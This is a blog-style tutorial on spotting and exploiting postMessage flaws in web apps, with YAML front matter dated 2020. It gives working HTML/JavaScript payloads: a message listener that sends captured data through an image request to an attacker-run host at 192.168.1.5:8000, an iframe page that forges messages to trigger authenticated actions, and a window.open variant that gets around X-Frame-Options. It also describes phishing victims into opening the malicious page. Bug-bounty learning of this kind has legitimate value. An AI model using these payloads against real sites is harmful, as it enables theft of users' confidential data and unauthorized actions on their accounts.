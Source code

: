 ```yaml
---
title: How to spot and exploit postMessage vulnerablities?
date: 2020-8-30 00:00:00 +0530
categories: [web]
tags: [web]
---
```


Hey fam, i hope everyone is doing okay and able to use this time efficiently for self development and to self reflect. This corona virus pandemic has grown a bit tiring to be honest and gets the best of us.

Here is my attempt at helping you understand a bug often overlooked when checking webapps or mobile apps, making it a gold mine for all testers, whether seasoned or new.

Prerequisite: the site should rely on cookies

**CASE 1, Message sent to all origin**

First a little about postMessage, as descirbed in the [mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) the syntax is fairly simple.

```
postMessage(_message_, _targetOrigin_, \[_transfer_\]);
```

The problem however occurs when the target origin is set to \* aka everywhere or lets say to xyz.com but improper implentation allows one to bypass it by creating domain like _xyz.com_puter.com. As most of you must have guessed by now the data is not being restricted to the same origin(the original domain) and thus in theory can be leaked.

Lets take a closer look at how this can be achieved

```
<script>  
window.addEventListener("message", function(event){  
document.write("<img src='[http://192.168.1.5:8000/?leak=](http://192.168.1.5:8000/?leak=)"+event.data.value+"'></img>");  
}, false);  
window.open("vulnerable page leaking data");  
</script>
```

I know this must look kind of confusing at first look but stay with me:

Since the message is being sent to all origins, we should be able to catch it. So we created a malicious html page that has an event listener basically a kind of catcher that catches any data sent by post message.

The 3rd line document.write, is nothing but a classic leaking of important data using image tag. What we did is we created local server at our computer (http Simpleserver python works) and sent this data we catched to our pc by writing a img on src _our\_pc\_ip(please note you need a public ip):port\_number?leak=confidential\_data._

the 4th line is basically opening the vulnerable page so that it send the postMessage data to all origins and our script catches it as soon as data is transmitted.

So basically this page is hosted and victim is phished to open it, as soon as they open it because the page relies on cookies, the site gets opened with authentication signed in thus leaking the data confidential to that user.

**CASE 2, the site is listening to messages from any origin**

But what if the event listener is listening to all messages irrespective of the origin. In that case it becomes possible to forge a message and send it to the user(which can range from a self xss to any authenticated action like sharing of documents).

```
<html>  
<head>  
<script>  
function hack(){  
setTimeout(function(){document.getElementById("i").contentWindow.postMessage('**The\_message**','\*');},2000);  
};  
</script>  
</head>  
<body>  
  <iframe id="i" src="[**v**](http://ptl-e13e72a3-bcbf8e2c.libcurl.so/)**ulnerable page**"></iframe>  
<script>hack();</script>  
</body>  
</html>
```

here, what we did is we created a malicious html page but this time we opened the page in an iframe and use the base page to send a message with origin \*(basically to all targets for easier exploitation). The eventListener in the vulnerable page gets the message and since the origin is not properly filtered it executes the command and allows the action.

Here, 2000 signifies 2 second, we just wait so that the page gets properly loaded before our script executes.

**HOW TO FIND IT?**

We obviously cannot search all js to every page without wasting a lot of effort to find postMessage functions to check for vulnerablities. An easy way is to use chromedev tools, you simply inspect a page and go to event listeners.

<img alt="" class="t u v ii aj" src="https://miro.medium.com/max/1566/1*Z3FqO1ht6sywcRHlBPP_tg.png" width="783" height="463" srcSet="https://miro.medium.com/max/552/1*Z3FqO1ht6sywcRHlBPP_tg.png 276w, https://miro.medium.com/max/1104/1*Z3FqO1ht6sywcRHlBPP_tg.png 552w, https://miro.medium.com/max/1280/1*Z3FqO1ht6sywcRHlBPP_tg.png 640w, https://miro.medium.com/max/1400/1*Z3FqO1ht6sywcRHlBPP_tg.png 700w" sizes="700px" role="presentation"/>

We can clearly see and locate the message under event listeners and thus check for vulns.

**WHAT IF X-FRAME IS USED AND WE CANNOT USE IFRAME?**

Luckily there is a bypass for that, we can just use javascript completely to load the page.

```
<html>  
<body>  
<script>  
car w=window.open("url here","hack")  
setTimeout(function(){w.postMessage('text here','\*');},2000);  
</script>  
</body>  
</html>
```

I hope you enjoyed reading this!
